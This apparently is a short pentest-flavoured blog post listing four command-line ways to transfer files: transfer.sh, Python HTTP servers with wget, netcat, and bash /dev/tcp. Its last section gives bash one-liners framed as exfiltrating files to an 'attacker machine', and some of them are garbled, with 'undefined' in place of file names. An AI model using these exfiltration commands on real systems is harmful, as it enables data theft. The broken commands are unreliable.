```yaml
---
title: 4 Ways To Quickly Transfer Files
publishedOn: Febuary 5th, 2023
slug: transfer-files
excerpt: I want to cover a few ways to easily transfer files inside the command line. My personal go to is a Python server and curl/wget request on the client side. I also really like curls --upload-file utility because it will actually present a QR code, sharable page, and a specific URL you can now use on the client side. Netcat's transfer is very easy as well but we will see all the different options in this blog article. I will list them in order of how I favor them. 
readingTime: 5 mins
---
```


# Transfering Files

# **#1 Curl's Transfer.sh Utility**
Cur's Transfer.sh Utility, and will upload it to a specific transfer.sh server. It's relatively new but for me has worked everywhere. I like it because you do not need to mess with checking IP addresses, Ngrok, if you are in/out network, etc. It works 100% of the time, regardless of any of that. It will give you a sharable web page, QR code, and as soon as you finish the upload a link for that. You can also just use that link to make a curl request and download the file, which is what I typically do. 

The following command uploads the file to the transfer.sh servers...

`curl --upload-file ./file.txt https://transfer.sh/Myfile.txt`

***This will give a URL that looks something like this...***

`https://transfer.sh/A3a3KL/Myfile.txt`

To download the file on the client side, enter the following command...

`curl https://transfer.sh/<CodeFromAbove>/Myfile.txt -o Myfile.txt`

***-o for output, can be named anything.***

# **#2 Python**
Python is the next easiest for me, just out of familiarity. Python3 specifically but both are easy.

*Anything written in python2 will almost always break in python3. So we also look at how to transfer a file using python3.*

## **Python3**

In the case of python3, enter the following command to start a simple python server...

`python3 -m http.server 8080`

***^ Make sure you are in the correct directoy prior to starting server.***

To download the file on the target, enter the following command...

`wget http://192.168.43.177:8080/exploit.php`

## **Python2**
----------
Switch to the directory where the file that you want to transfer exists. Start a simple python server. Enter the following command...

`python -m SimpleHTTPServer 8080`

Now go to the machine where you want to transfer the file. Use the following command to download the file...

`wget http://192.168.43.177:8080/stuxnet.php`

# #3 Netcat
Netcat has always been an easy option for trasnfering and just about anything else.

Netcat is a powerful utility to transfer files from any remote machine to a local device. It may not always be installed. You can check whether it exists or not by entering...

`which nc`
`which netcat`

Make a netcat server with the following command...

`nc -nlvp 8080 < stuxnet.php`

Now go to the target machine and enter the following to download the file...

`nc -nv 192.168.43.177 8080 > stuxnet.php`

# #4 Bash Upload
**I've never really used this method. Transfer.sh, Python, and Netcat work perfectly so I've never needed this. I have used similiar bash commands for reverse shells.**
### **Upload file over HTTP (require HTTP service running on the attacker machine)below...**

`bash -c 'echo -e "POST / HTTP/0.9 $(<undefined)" > /dev/tcp/127.0.0.1/6969'`
----------------------------
### **Exfiltrate file over TCP# Listen with Netcat on port 6969 + output redirection below...**

`bash -c 'cat undefined > /dev/tcp/<IPADDRESS>/6969'`

----------------------------
## Bash Download on Client Side

`bash -c 'cat < /dev/tcp/<IPADDRESS>/6969 > undefined'`